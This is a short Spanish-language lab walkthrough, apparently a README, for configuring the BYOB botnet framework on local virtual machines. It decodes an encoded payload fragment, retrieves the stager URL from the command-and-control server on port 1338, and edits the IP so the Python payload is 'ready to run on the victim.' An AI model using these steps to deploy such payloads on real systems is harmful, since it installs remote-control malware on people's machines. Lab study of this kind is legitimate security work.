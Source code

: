 # BYOB

Configurar BYOB para usarse localmente con máquinas virtuales en Bridge:

Descargar el payload de Byob en formato Python y leerlo para analizarlo:

![image](https://user-images.githubusercontent.com/111320119/231319590-39e3dc16-11a0-4d95-b36d-3fb8cc5acf9c.png)

En una terminal de Python, importa las librerias y copia el siguiente fragmento del archivo:
zlib.decompress(base64.b64decode(b'eJwrtWFgYCgtyskvSM3TUM8oKSmw0tc3tDDXM7Q00DMyMNUzMbUyNDa20NcvLklMTy0q1q+0DNQrqFTX1CtKTUzR0AQATWsSNg=='))

De esta manera, podremos decodificar la base 64 de lo que nos arroja dicho script.

![image](https://user-images.githubusercontent.com/111320119/231319884-e1eb9872-d05d-4024-bf69-cf9c51fc0247.png)


Dicho script nos arroja la dirección IP públic a la que se hace la petición, junto con el puerto al que hará la petición el bot una vez que se esté corriendo el script, copiamos el siguiente fragmento marcado en rojo:

![image](https://user-images.githubusercontent.com/111320119/231320107-917085c1-6fda-459e-8cc7-565033ca041c.png)

Lo ingresamos en el navegador antecediento la IP donde se encuentra hosteada el BYOB. (tiene que estar en modo bridge la máquina virtual). Nos arrojará otro scipt de Python del que recuperaremos otra URL que modificaremos

Sintaxis:  http:// IP:1338 //stagers/nombrepayoad.py


![image](https://user-images.githubusercontent.com/111320119/231320343-923317d0-f87e-4e24-8218-8c2e21f4cf23.png)

Hasta el final de dicho archivo encontraremos la URL y recuperaremos lo siguiente:

![image](https://user-images.githubusercontent.com/111320119/231320691-ec35fb4a-49aa-4ac8-9954-3eb7a755467d.png)

Realizamos la misma dinámica de extraer lo marcado en rojo y sustituir nuestra IP pública por la IP local de la máquina virtual. Encontraremos otro script de python que copiaremos en un bloq de notas, completamente

![image](https://user-images.githubusercontent.com/111320119/231321182-10db2e35-7198-4b71-8c93-cc9eb553e144.png)

Hasta el final basta con cambiar la ip pública a nuestra IP local en el espacio marcado en morado y guardar dicho archivo de Python. Este mismo quedará listo para ejecutarse en la víctima.

![image](https://user-images.githubusercontent.com/111320119/231321507-1bf44591-ff41-4d44-8e53-c61aa1dab828.png)



